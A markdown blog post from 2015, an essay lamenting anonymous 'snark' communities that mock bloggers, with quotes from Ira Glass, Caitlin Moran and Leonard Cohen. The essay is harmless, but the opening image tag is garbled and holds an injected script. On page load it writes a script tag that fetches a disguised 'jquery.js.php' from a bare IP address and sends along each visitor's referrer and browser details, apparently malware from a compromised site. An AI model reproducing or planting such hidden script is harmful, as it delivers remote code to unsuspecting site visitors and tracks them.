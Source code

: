```yaml
---
layout: post
title: "The Empty Thrill Of Snark"
date: 18-May-2015
categories: tbd
---
```


# The Empty Thrill Of Snark

## 18th May 2015

<img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  dressed in fur coat and hat." src="https://s-media-cache-ak0.pinimg.com/736x/e4/6c/22/e46c22f1f1a04ceb5195a61cea80af7e.jpg" />

Amelita Galli-Curci seated at desk ,   photo source unknown.

I've been thinking about snark lately, about creativity- poisoning, and the meanness and ugliness of it all.

There's a real high-school thing happening out there where the online mean-girl gang gather to speculate about blogs they love to hate. Poison pens hovering, they wait for bloggers to write something stupid, outrageous or thoughtless. How very dare you! cry the commenters on these snark threads, as they idly rip apart every aspect of a persons life and crow over the remains.

Bloody hell, who would be a blogger these days? Nobody gets out alive.

Way back in ye olde blogging machine, bloggers would comment on each others sites, because it was the only contact we had with each other. People would write to say hello, I've had that experience you talked about, nice hat, etc. People didn't bother to write mean stuff, usually, and if they did it was the aggressive act of an anonymous weirdo  and other readers jumped in to defend you. If  there was a blogger who you couldn't stand you either clicked away or you quietly texted your sister to have a laugh.

Times have changed.

Blogging is different now in lots of ways, good and bad. The existence of anonymous snark websites changes the atmosphere profoundly from a largely supportive and warm community space to one where you need a very thick skin to express yourself with vulnerability and truth. I think it's  a sad development.

Ira Glass from This American Life  has a wonderful theory on the development of creativity: that it takes time to hone a craft. If you're going to get good, you have to be really crappy for a while first.

<blockquote>Nobody tells this to people who are beginners, I wish someone told me. All of us who do creative work, we get into it because we have good taste. But there is this gap. For the first couple years you make stuff, it’s just not that good. It’s trying to be good, it has potential, but it’s not. But your taste, the thing that got you into the game, is still killer. And your taste is why your work disappoints you. A lot of people never get past this phase, they quit. Most people I know who do interesting, creative work went through years of this. We know our work doesn’t have this special thing that we want it to have. We all go through this. And if you are just starting out or you are still in this phase, you gotta know its normal and the most important thing you can do is do a lot of work. Put yourself on a deadline so that every week you will finish one story. It is only by going through a volume of work that you will close that gap, and your work will be as good as your ambitions. And I took longer to figure out how to do this than anyone I’ve ever met. It’s gonna take awhile. It’s normal to take awhile. You’ve just gotta fight your way through.”</blockquote>

The problem with writing online is that the development process is public. Every half-arsed idea you float could possibly be captured and examined in all its shameful amateurism by this court of self-appointed, nameless meanies, these arbiters of taste and intelligence.

Snark culture has a particular language and behavior.  Writers call each other 'hams' and are saccharine sweet, ham to ham, in the manner of adolescent girl-gangs wanting to prove that they are not the bitches they appear. 'You hams are the best,' they say, and 'this is the funniest thread on the internet,' all the while inserting the salty blade into strangers relationships with their children. In this language, children are 'kittens' and to defend a blogger is to WK, or white-knight them, and this is usually done apologetically, as in  'can't believe  I'm WK'ing for....' The given wisdom seems to be that the bloggers they dissect are utterly craven, and deserve every ugly slur hurled their way. While many writers are measured,  there is a significant percentage who  seem deeply and inexplicably invested in the lives of the strangers whose blogs they read.

There are some nutball narcissists out there writing blogs, no doubt.  But it's a pretty hard to defend a website that has a thread with over 1000 pages dedicated to parsing and mocking every word written by a Mormon mother of five who writes about life after surviving a plane crash that burned almost all of her body.

The argument for snark says that it is a useful counterpoint to the over-familiar, fan-girly commentary that can appear on blogs. That stuff is skin-crawly, to be sure.  Guardian writer Sady Doyle says it's <a href="http://www.theguardian.com/commentisfree/cifamerica/2010/jul/26/snark-put-downs-online">useful and necessary.</a> 'Snark is the kids at the back of the class,' Doyle says, 'heckling the substitute teacher; it's the voice of people who feel stifled, talked down to, or left out; the tool of people who have discovered that honing in on the weaknesses of those in power, exposing them publicly (if only to their own circle of friends), and reducing them to figures of fun (if only in their own minds), makes them feel a little less helpless.'

I think the problem lies in the combination of anonymity and groupthink.  We get encouraged  into a kind of  folie à plusieurs, or 'madness of many' - where an idea gains credence by being held by lots of people, no matter how batshit crazy it might be.  Soon we are inhabiting this awful, ugly landscape where people speculate on the mental health, marriage status and pants size of lady-writers  (the bloggers, like the snarkers, are overwhelmingly female).  This mother doesn't love her child. This child has a developmental delay. This woman needs medication. This one needs cosmetic surgery. The pearl-clutching, body-shaming and moralising goes on and on.

Who are these people?

Who would bother to write these things?

It's all such a buzzkill.

Reading blog snark sites, when you are a blogger,  is like a secret, guilty pleasure. Some of the gifs are superb, and many of the writers are intelligent and funny. But it doesn't take long before the sweetness starts to pool in a sour puddle, like reading 'celebrities without makeup' or watching Dance Moms. It's not the behaviour of a useful person, to insert this kind of information into your brain.

Here's how Caitlin Moran puts it in her book 'How To Build A Girl':

<blockquote>Because I am still learning to walk and talk, and it is a million times easier to be cynical, and to wield a sword, than it is to be open-hearted, and stand there, holding a balloon and a birthday cake, with the infinite potential to look foolish. Because I still don't know what I really think or feel, and I'm throwing grenades and filling the air with smoke while I desperately, desperately try to get off the ground: to get elevation. Because I haven't yet learned the simplest and most important thing of all: the world is difficult, and we are all breakable. So just be kind.</blockquote>

Creating content is really hard when out there is a living embodiment of your inner critic, hovering over the keyboard waiting to mock your your thoughts. Me, I like to imagine the snarkers like my friend Anthony describes, tapping away in front of a mirror, with a Casio keyboard by their side, set permanently on the Applause button. I wish they would turn their talents to making something instead of tearing at things others have made.

Lets create, not spectate. Let's allow each other to be nobby, idiotic and dim sometimes. Let's leave a little wiggle room so that those amongst us with thinner skins are not afraid to speak their truth, make their offerings, and let their freak flags fly.

It's how Leonard Cohen tells it: 'Ring the bell that still can ring. Forget your perfect offering. There is a crack in everything. That's how the light gets in.'

PS - I enjoyed writing a post on my old blog called <a href="http://mogantosh.blogspot.com.au/2011/01/well-i-feel-better-after-this-rant-i_15.html">The Best of The Angry Shriekers That Hate Me. </a> It was therapeutic.

PPS - Cooker and A Lookers video of <a href="http://www.cookerandalooker.com/bloggers-read-mean-comments/">bloggers reading mean comments.</a>
